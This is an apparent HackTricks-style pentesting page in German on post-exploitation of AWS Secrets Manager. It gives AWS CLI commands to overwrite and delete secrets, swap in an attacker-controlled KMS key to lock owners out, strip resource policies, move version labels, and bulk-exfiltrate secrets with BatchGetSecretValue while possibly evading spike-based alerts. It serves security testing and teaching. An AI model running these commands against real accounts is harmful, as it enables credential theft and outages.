 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Für weitere Informationen siehe:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Secrets auslesen

Die **Secrets selbst sind sensible Informationen**, [siehe die privesc-Seite](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md), um zu erfahren, wie man sie ausliest.

### DoS: Secret-Wert ändern

Wenn du den Wert des Secret änderst, könntest du damit **ein DoS für alle Systeme verursachen, die von diesem Wert abhängen.**

> [!WARNING]
> Beachte, dass vorherige Werte ebenfalls gespeichert werden, sodass es einfach ist, wieder zum vorherigen Wert zurückzukehren.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Wenn der Angreifer die Berechtigung secretsmanager:UpdateSecret hat, kann er das secret so konfigurieren, dass es einen KMS key verwendet, der dem Angreifer gehört. Dieser key wird zunächst so eingerichtet, dass jeder darauf zugreifen und ihn verwenden kann, sodass das Aktualisieren des secret mit dem neuen key möglich ist. Wenn der key nicht zugänglich wäre, könnte das secret nicht aktualisiert werden.

Nachdem der key für das secret geändert wurde, passt der Angreifer die Konfiguration seines keys so an, dass nur noch er darauf zugreifen kann. Auf diese Weise werden in den nachfolgenden Versionen des secret diese mit dem neuen key verschlüsselt, und da kein Zugriff darauf besteht, geht die Möglichkeit verloren, das secret abzurufen.

Es ist wichtig zu beachten, dass diese Unzugänglichkeit nur in späteren Versionen auftritt, nachdem sich der Inhalt des secret geändert hat, da die aktuelle Version weiterhin mit dem ursprünglichen KMS key verschlüsselt ist.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Secret löschen

Die minimale Anzahl an Tagen, um ein Secret zu löschen, beträgt 7.
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Es ist möglich, ein Secret wiederherzustellen, wodurch Secrets wiederhergestellt werden können, die zur Löschung geplant wurden, da die minimale Löschfrist für Secrets 7 Tage und die maximale 30 Tage beträgt. Zusammen mit der Berechtigung secretsmanager:GetSecretValue ermöglicht dies, deren Inhalte abzurufen.

Um ein Secret wiederherzustellen, das sich im Löschvorgang befindet, können Sie den folgenden Befehl verwenden:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Diese Aktion erlaubt das Löschen der Ressourcenrichtlinie, die steuert, wer auf ein Secret zugreifen kann. Dies könnte zu einem DoS führen, wenn die Ressourcenrichtlinie so konfiguriert war, dass sie Zugriff für eine bestimmte Benutzergruppe erlaubt.

Um die Ressourcenrichtlinie zu löschen:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Die Zustände eines Secret werden verwendet, um Versionen eines Secret zu verwalten. AWSCURRENT kennzeichnet die aktive Version, die Anwendungen verwenden, AWSPREVIOUS behält die vorherige Version, damit Sie bei Bedarf zurückrollen können, und AWSPENDING wird im Rotationsprozess genutzt, um eine neue Version vorzubereiten und zu validieren, bevor sie zur aktuellen Version gemacht wird.

Anwendungen lesen immer die Version mit AWSCURRENT. Wenn jemand dieses Label auf eine falsche Version verschiebt, verwenden die Anwendungen ungültige Zugangsdaten und können fehlschlagen.

AWSPREVIOUS wird nicht automatisch verwendet. Wenn AWSCURRENT jedoch entfernt oder falsch neu zugewiesen wird, kann es so aussehen, als würde weiterhin alles mit der vorherigen Version laufen.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Massen-Secret-Exfiltration via BatchGetSecretValue (bis zu 20 pro Aufruf)

Missbrauche die Secrets Manager BatchGetSecretValue API, um bis zu 20 secrets in einer einzigen Anfrage abzurufen. Das kann die Anzahl der API-Aufrufe im Vergleich zum iterativen Aufrufen von GetSecretValue pro secret deutlich reduzieren. Wenn Filter verwendet werden (tags/name), wird zudem die ListSecrets-Berechtigung benötigt. CloudTrail zeichnet trotzdem für jedes im Batch abgerufene secret ein GetSecretValue-Event auf.

Erforderliche Berechtigungen
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue für jedes Ziel-secret
- secretsmanager:ListSecrets bei Verwendung von --filters
- kms:Decrypt auf den für die secrets verwendeten CMKs (wenn nicht aws/secretsmanager verwendet wird)

> [!WARNING]
> Beachte, dass die Berechtigung `secretsmanager:BatchGetSecretValue` allein nicht ausreicht, um secrets abzurufen — du benötigst außerdem `secretsmanager:GetSecretValue` für jedes secret, das du abrufen möchtest.

Exfiltrieren über explizite Liste
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate mittels Filter (tag key/value oder name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Umgang mit teilweisen Fehlern
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Auswirkungen
- Rascher „smash-and-grab“ vieler secrets mit weniger API-Aufrufen, wodurch möglicherweise Alarmierungen, die auf Spitzen von GetSecretValue ausgelegt sind, umgangen werden.
- CloudTrail-Logs enthalten weiterhin ein GetSecretValue-Ereignis pro secret, das vom Batch abgerufen wurde.
